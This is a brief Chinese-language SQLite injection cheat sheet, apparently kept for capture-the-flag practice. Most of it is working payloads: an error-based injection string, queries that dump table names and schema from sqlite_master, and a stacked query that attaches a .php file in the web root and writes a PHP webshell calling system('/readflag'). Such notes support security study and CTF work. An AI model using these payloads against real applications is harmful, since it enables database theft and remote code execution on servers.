 # sqlite
	- [参考](https://www.sjkjc.com/sqlite-ref/string-functions/)
	- ```
	  a'||1=2||abs(case(2)when(1)then(1)else(0x8000000000000000)end)||'
	  ```
	- sqlite 中没有`ascii`，用`unicode`代替
	- ```
	  (select group_concat(name) from sqlite_master where type = 'table') # 表名
	  
	  (SELECT sql FROM sqlite_master WHERE tbl_name = 'table_name' AND type = 'table') # 创建表使用的sql
	  ```
	- 写webshell
		- ```
		  1; ATTACH DATABASE '/var/www/html/data/qazxsw.php' as hackz;CREATE TABLE hackz.pwn (dataz text);INSERT INTO hackz.pwn (dataz) VALUES ('<?php echo system(\"/readflag\"); ?>'); -- xyz
		  ```
	-